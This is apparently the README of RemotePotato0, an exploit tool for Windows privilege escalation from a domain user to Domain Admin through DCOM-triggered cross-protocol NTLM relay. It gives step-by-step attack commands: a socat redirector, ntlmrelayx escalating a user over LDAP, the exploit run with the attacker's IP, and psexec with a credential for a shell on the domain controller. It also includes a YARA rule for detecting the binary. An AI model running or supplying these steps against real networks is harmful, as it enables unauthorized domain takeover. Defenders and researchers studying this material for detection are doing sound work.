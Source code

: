 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of any user currently logged on in the target machine.
It is required that a privileged user is logged on the same machine (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.

Full details at --> https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop

## Example

Attacker machine (192.168.83.130):

```
sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 &
sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user winrm_user_1
```
**Note: if you are on Windows Server <= 2016 you can avoid the network redirector (socat) because the oxid resolution can be performed locally.**

Victim machine (192.168.83.131):

```
.\RemotePotato0.exe -r 192.168.83.130 -p 9998
```
**Note2: Remember you can pick an arbitrary session activation with the -s flag, very powerful!**

Victim Domain Controller (192.168.83.135)

Enjoy shell (eg. psexec) as Enterprise Admin to the domain controller ;)

```
psexec.py 'SPLINTER/winrm_user_1:Password111!@192.168.83.135'
```

## Demo

### Cross session activation
<img src="demo_cross_session.gif">

### Shell in session 0
<img src="demo.gif">



## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [@tiraniddo](https://twitter.com/tiraniddo) - [Cross Session Activation](https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html)
